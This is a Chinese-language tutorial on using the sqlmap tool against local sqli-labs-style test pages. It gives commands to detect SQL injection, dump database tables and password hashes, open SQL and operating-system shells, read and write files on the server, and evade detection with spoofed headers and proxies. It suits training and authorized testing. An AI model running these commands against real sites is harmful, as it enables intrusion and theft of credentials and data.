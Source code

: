 ```yaml
---
title: Sqlmap的使用
---
```


# Sqlmap的使用

## sqlmap下载

windows版

[https://github.com/sqlmapproject/sqlmap/zipball/master](https://github.com/sqlmapproject/sqlmap/zipball/master)

linux版

[https://github.com/sqlmapproject/sqlmap/tarball/master](https://github.com/sqlmapproject/sqlmap/tarball/master)

## 基础篇

1、判断是否存在注入

```bash
python sqlmap.py -u http://127.0.0.1/sql1/less-1/?id=1 #注入点后面的参数大于等于两个时加双引号
```

2、 判断文本是否存在注入(bp抓post包)

```bash
python sqlmap.py -r desktop/1.txt  --dbs --batch //文本路径，一般放在桌面直接扫描
```

3、查询当前用户下所有数据库

```bash
python sqlmap.py -u http://127.0.0.1/sql1/less-1/?id=1 --dbs #继续查询时--dbs缩写成-D
```

4、获取指定数据库中的表名

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/union.php?id=1" -D dkeye --tables #继续查询时--tables缩写成-T
```

5、获取表中的字段名

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/union.php?id=1" -D dkeye -T user_info --columns #继续查询时--columns缩写成-C
```

6、获取字段内容

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/union.php?id=1" -D dkeye -T user_info -C username,password --dump
```

7、获取数据库中所有的用户(当前用户有权限读取包含所有用户的表的权限时使用就可以列出所有管理用户)

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/nuion.php?id=1"  --users
```

8、获取数据库用户的密码(一般是mysql5加密----www.cmd5.com中解密)

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/nuion.php?id=1" --passwords 
```

9、获取当前网站数据库的名称和用户名称

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/nuion.php?id=1" --current-db
python sqlmap.py -u "http://127.0.0.1/sql1/nuion.php?id=1" --current-user
```

## 进阶篇

1、--leverl 5：探测等级，默认为1，为2时会自动测试http cookie,为3时测试http user-agent/referer

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/nuion.php?id=1" --leverl 5
```

2、查看是否为管理员权限

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/nuion.php?id=1" --is-dba
```

3、列出数据库管理员角色（有权限读取所有用户的表，仅仅适用于当前数据库是Oracle的时候）

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/nuion.php?id=1" --roles
```

4、伪造referer

```bash
--referer http://www.baidu.com
```

5、运行自定义的sql语句

```bash
python sqlmap.py -u "http://127.0.0.1/sql1/nuion.php?id=1" --sql-shell
```

6、执行任意操作系统命令

```bash
--os-cmd --os-shell
```

7、从数据库服务器中读取文件

```shell
python sqlmap.py -u "url" \ --file-read "C:/exaple.exe" -v 1
```

8、上传文件到数据库服务器中(将本地的test.txt文件上传到目标服务器的C:/windows/temp下并重命名为hack.txt)

```shell
python sqlmap.py -u "url" --file-write \ test.txt --file-dest "C:/windows/temp/hack.txt" -v 1
```

9、指定数据库、任意User-Agent爆破、代理爆破

```bash
python sqlmap.py -u "http://127.0.0.1/sqli/Less-4/?id=1" --dbms=mysql     #指定其数据库为mysql
python sqlmap.py -u "http://127.0.0.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
python sqlmap.py -u "http://127.0.0.1/sqli/Less-4/?id=1" --proxy=PROXY    #使用代理进行爆破
-p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
```

## 超进阶

tamper绕过脚本的编写，官方自带53个，但远远不够，这里就不往下写了，多读书多用就好了